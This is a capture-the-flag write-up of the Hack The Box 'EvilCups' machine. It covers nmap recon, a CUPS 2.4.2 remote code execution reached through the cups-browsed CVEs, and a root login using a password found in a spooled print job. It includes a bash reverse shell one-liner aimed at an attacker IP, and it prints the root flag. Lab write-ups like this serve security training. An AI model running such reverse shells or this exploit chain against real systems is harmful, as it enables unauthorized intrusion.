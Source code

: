 ```yaml
---
title : "Hack The Box - EvilCups"
author: imdang 🤞🤞
date: 2024-11-13 11:33:00 +0800
categories: [Hackthebox, Hackthebox-Linux, Hackthebox-Medium]
tags: [nmap,cups,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon
## Nmap

The first thing that I do is run nmap scan that show this results:
```console
# Nmap 7.94SVN scan initiated Thu Oct 31 03:16:36 2024 as: nmap -sV -sC --min-rate=1000 -p- -o nmap 10.10.11.40
Warning: 10.10.11.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.40
Host is up (0.27s latency).
Not shown: 64302 closed tcp ports (conn-refused), 1231 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 03:19:48 2024 -- 1 IP address (1 host up) scanned in 191.98 seconds
```

From the nmap results, we can see that there is port 22 SSH and port 631 TCP run CUPS 2.4.2 service. Take a search ```cups 2.4.2``` and run nmap to scan udp port

```console
┌──(kali㉿kali)-[~/htb/machine/evilcups]
└─$ sudo  nmap -sU -p 630-632 10.10.11.40 -o nmap_udp
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 10:42 EST
Nmap scan report for 10.10.11.40
Host is up (0.25s latency).

PORT    STATE         SERVICE
630/udp closed        rda
631/udp open|filtered ipp
632/udp closed        bmpp

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds
```

That's port 631 UDP run ipp (Internet Printer Protocol) 

## Website - TCP 631

Take a look in the website, that is a web interface for CUPS 2.4.2 service to control openprinting printer

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_cups.png)


# Exploit

## User

Search for changelog and CVE in google for CUPS 2.4.2.

I see that has 4 CVE:
- CVE-2024-47076 has a CVSS score of 8.6, representing a critical level of severity due to the ability of an attacker to send malicious IPP requests to manipulate printer settings and execute arbitrary code​
- CVE-2024-47175 also scores 8.6, allowing for a similar type of remote code execution through crafted print job submissions, targeting vulnerabilities in the PPD file processing​
- CVE-2024-47176 carries a CVSS score of 5.3, reflecting the potential for exploitation via the cups-browsed service
- CVE-2024-47177 is another critical vulnerability, also scoring 9.0 (previously 9.9), as it allows attackers to bypass security measures by sending malformed IPP requests​

Combine this a report in github can get RCE from CUPS service in link [open printing rce]("https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8")

Use it and change ```command``` to get reverse shell in port ```9001``` to "bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'"

Run ```poc.py``` and access to printers in CUPS web and select to ```Print Test Page``` to get reverse shell and get user flag

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_poc.png)

User flag: ```***```

# Privilege Escalation

## Linpeas

Come back to Web TCP 631 and see first Printer default in Web, i get that is printer with id 1 in this.

So see in documention, get the default evilcups filesystem in ```var/spool/cups```, but no read privilege in this, user ```lp``` just have execute privilege, and continue in documention default file name is ```d<print job>-<page number>```, ```<print job>``` needs to be 5 digits and ```<page number>``` be 3 digits. So file-path is ```var/spool/cups/d00001-001```.

cat it

```shell
cat /var/spool/cups/d00001-001
%!PS-Adobe-3.0
%%BoundingBox: 18 36 577 806
%%Title: Enscript Output
%%Creator: GNU Enscript 1.6.5.90
%%CreationDate: Sat Sep 28 09:31:01 2024
%%Orientation: Portrait
%%Pages: (atend)
%%DocumentMedia: A4 595 842 0 () ()
%%DocumentNeededResources: (atend)
%%EndComments
%%BeginProlog
%%BeginResource: procset Enscript-Prolog 1.6.5 90
%
% Procedures.
%

/_S {   % save current state
  /_s save def
} def
/_R {   % restore from saved state
  _s restore
} def

/S {    % showpage protecting gstate
  gsave
  showpage
  grestore
} bind def

/MF {   % fontname newfontname -> -     make a new encoded font
  /newfontname exch def
  /fontname exch def
...
```

See that the file ```d00001-001``` is ps file with DocumentMedia, so use tool ```ps2pdf``` to convert it to pdf

```console
p@evilcups:/$ ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
lp@evilcups:/$ cd tmp
cd tmp
lp@evilcups:/tmp$ ls
ls
00d5e673a5af7
00d5e673c8b27
00d7f673b9575
00d7f673f3930
00dc8673acbd9
00dc8673d3f54
011d3673cb49e
011d3674208c4
03f816736a89b
03f816742929f
06d266737c890
06d26673a905e
06d5a673600d7
d00001-001.pdf
foomatic-8Zd8lA
foomatic-dC088b
foomatic-Nyxp01
foomatic-nzO5CZ
foomatic-o7RpxI
foomatic-sJEqZS
foomatic-TGU0gW
systemd-private-6f705080b80545b0a6fb3d6cd199155b-colord.service-uvXVLM
systemd-private-6f705080b80545b0a6fb3d6cd199155b-systemd-logind.service-p3WmZd
vmware-root_586-2696942867
```

Run http server and get pdf file

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_pdf.png)

SSH root with this password.

And now, WE ARE ROOT !! 

Root flag: ```2ff71ea6aba5d40af914c1af75672e2a```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_boxroot.png)

<!-- HTB Profile : [ficstkeyfx](https://app.hackthebox.com/profile/244565) -->

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
